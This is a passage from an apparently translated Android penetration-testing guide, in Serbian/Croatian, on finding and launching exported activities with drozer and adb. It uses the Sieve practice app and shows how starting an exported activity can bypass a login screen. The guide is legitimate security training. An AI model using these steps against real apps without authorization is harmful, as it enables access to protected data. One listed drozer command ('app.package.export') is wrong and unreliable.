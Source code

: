 **Lista izvezenih aktivnosti**:

Da biste dobili popis izvezenih aktivnosti u Android aplikaciji, možete koristiti drozer alat. Drozer je moćan alat za testiranje penetracije koji omogućava analizu i manipulaciju Android aplikacija.

Evo koraka koje možete slijediti da biste dobili popis izvezenih aktivnosti:

1. Prvo, instalirajte drozer na svoj uređaj ili računalo.
2. Pokrenite drozer i povežite se s ciljnom Android aplikacijom.
3.  Nakon uspostavljanja veze, izvršite sljedeću naredbu:

    ```
    run app.package.export <ime_paketa>
    ```

    Zamijenite `<ime_paketa>` s imenom paketa ciljne aplikacije.
4. Drozer će izvesti popis aktivnosti koje su dostupne u ciljnoj aplikaciji.

Ovaj postupak omogućuje vam da identificirate izveze aktivnosti u Android aplikaciji, što može biti korisno za daljnje testiranje penetracije ili analizu sigurnosti.

```bash
dz> run app.activity.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
com.mwr.example.sieve.FileSelectActivity
com.mwr.example.sieve.MainLoginActivity
com.mwr.example.sieve.PWList
```

**Pokretanje aktivnosti**:

Možda možete pokrenuti aktivnost i zaobići neku vrstu autorizacije koja bi trebala da vas spreči da je pokrenete.

{% code overflow="wrap" %}
```bash
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
```
{% endcode %}

Takođe možete pokrenuti izveštenu aktivnost putem **adb**:

* PackageName je com.example.demo
* Izveštenu ActivityName je com.example.test.MainActivity

```bash
adb shell am start -n com.example.demo/com.example.test.MainActivity
```

### Provajderi sadržaja

Ovaj post je bio toliko veliki da **možete** [**pristupiti njemu na zasebnoj stranici ovde**](exploiting-content-providers.md).

### Servisi

Izvozni servis je deklarisan unutar Manifest.xml fajla:

{% code overflow="wrap" %}
```markup
<service android:name=".AuthService" android:exported="true" android:process=":remote"/>
```
{% endcode %}
